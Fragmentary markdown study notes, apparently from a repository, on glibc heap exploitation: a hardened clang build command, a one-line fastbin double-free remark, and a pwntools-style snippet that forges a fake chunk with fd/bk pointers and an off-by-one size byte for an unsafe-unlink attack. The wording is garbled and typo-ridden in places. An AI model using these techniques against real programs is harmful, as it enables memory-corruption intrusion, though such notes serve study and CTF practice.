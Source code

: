 
### compiler-security
```c
clang -fstack-protector -fpie -pie -s -Wl,-z,relro,-z,now  test.c -o test
```

### double-free
end of fastbin. control point and malloc arbitrarily to control_point with **suitable size**.

### unsortbin
* one of by: fake chuck - unlink () 
```
array       = 0x602108		# &addr contain chuck fake
fd          = array - (3*8)
bk          = array - (2*8)

fake_chunk  = p64(0)
fake_chunk += p64(0x8)
fake_chunk += p64(fd)
fake_chunk += p64(bk)
fake_chunk += 'A'*0x60
fake_chunk += p64(0x80)		# size previe
fake_chunk += p8(0x90)      	# before chuck is free - default 0x91 one off byte -> 0x90

edit(fake_chunk, 9)
```
